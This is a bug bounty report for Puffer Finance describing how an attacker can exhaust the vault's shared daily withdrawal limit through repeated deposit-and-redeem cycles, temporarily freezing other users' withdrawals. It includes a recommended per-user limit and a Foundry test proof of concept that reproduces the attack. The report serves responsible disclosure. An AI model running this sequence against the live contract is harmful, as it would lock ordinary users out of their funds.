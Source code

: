 
# Attacker Prevents All Users From Withdrawing Funds by Exploiting The Daily Withdrawal Limit

Submitted on Feb 22nd 2024 at 22:35:17 UTC by @misuz for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28645

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Temporary freezing of funds for at least 1 hour

## Description
## Vulnerability Details
 
In the `PufferVaultMainnet`contract, an attacker (who might potentially be a Puffer's competitor) can exploit the daily withdrawal limit by repeatedly depositing then withdrawing assets from the vault, deliberately making `_getPufferVaultStorage().assetsWithdrawnToday = _getPufferVaultStorage().dailyAssetsWithdrawalLimit` and `getRemainingAssetsDailyWithdrawalLimit() = 0`. This can be achieved using their own funds or funds obtained via a flash loan.

Even if the protocol raises the daily withdrawal limit, the attacker still can persist in exploiting this vulnerability until the daily limit is reached again. If the protocol then raises the daily limit to be unlimited, the attacker will continue depositing stETH and withdrawing WETH from the vault till when the liquidity of WETH and ETH in the vault is 0, resulting in all users of the protocol being unable to withdraw their assets from the vault. 

## Impact Details

All funds deposited by users into the vault become inaccessible for withdrawal.

## Recommendation

It is recommended to implement a daily withdrawal limit for every user (on a user level) to mitigate the risk of this vulnerability.


## Proof of Concept

```
    // forge t --mt test_attacker_causes_freezing_of_funds -vvvv
    function test_attacker_causes_freezing_of_funds()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), alice, 1000 ether)
        giveToken(BLAST_DEPOSIT, address(stETH), bob, 1000 ether)
        giveToken(MAKER_VAULT, address(_WETH), dave, 51 ether)
    {
        // Pre-mainnet version
        // Alice and Bob deposited 1k ETH
        vm.startPrank(alice);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, alice);

        vm.startPrank(bob);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, bob);

        // Upgraded to mainnet
        _upgradeToMainnetPuffer();

        // Dave - the attacker purposely deposits and withdraws assets so that the daily withdrawal limit is reached, causes freezing of funds
        vm.startPrank(dave);
        SafeERC20.safeIncreaseAllowance(
            _WETH,
            address(pufferVault),
            type(uint256).max
        );
        uint256 pufETHMintedFirst = pufferVault.deposit(50 ether, dave);

        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedFirst,
            dave,
            dave
        );
        uint256 pufETHMintedSecond = pufferVault.deposit(50 ether, dave);
        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedSecond,
            dave,
            dave
        );

        // Alice now can't withdaw
        vm.startPrank(alice);
        vm.expectRevert();
        pufferVault.withdraw(10 ether, alice, alice);
    }
```